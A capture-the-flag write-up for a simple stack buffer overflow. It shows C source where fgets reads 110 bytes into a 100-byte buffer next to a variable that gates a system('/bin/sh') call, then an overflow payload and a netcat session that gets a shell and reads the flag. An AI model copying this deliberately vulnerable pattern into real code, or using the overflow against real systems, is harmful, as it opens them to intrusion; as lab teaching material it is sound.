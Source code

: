 This is a basic buffer overflow without a complex payload. By analyzing the source code we can see several things : 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
// gcc -fno-stack-protector -o dnb1 main.c

void menu() {
   puts("                                   |\\__/,|   (`\\");
   puts("~ Test annuel de chatonnerie ~     |_ _  |.--.) )");
   puts("    ~ êtes-vous un chat ? ~        ( T   )     /");
   puts("                                  (((^_(((/(((_/");
}

int main(void) {
   setvbuf(stdin, NULL, _IONBF, 0);
   setvbuf(stdout, NULL, _IONBF, 0);
   setvbuf(stderr, NULL, _IONBF, 0);
   char identite[8] = "chien";
   char buffer[100];

   menu();
   printf("         >>> ");
   fgets(buffer, 110, stdin);

   if (strcmp(identite, "chat\n") == 0) {
      puts("bienvenue par minou !");
      system("/bin/sh");
   }
   else {
      puts("toutou détecté !");
   }
   return 0;
}
```

The `buffer` and the `identite` variables seems to be the only variables here thus they could be concomitant.  Since the buffer is 100 characters long but the `fgets` statement reads 110 characters the payload looks like this : 

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAchat
```

```
nc challenges.hackademint.org 32444
                                   |\__/,|   (`\
~ Test annuel de chatonnerie ~     |_ _  |.--.) )
    ~ êtes-vous un chat ? ~        ( T   )     /
                                  (((^_(((/(((_/
         >>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAchat
bienvenue par minou !
ls
dnb1
flag.txt
cat flag.txt
Star{pwn3z_m0i_ç4}
```
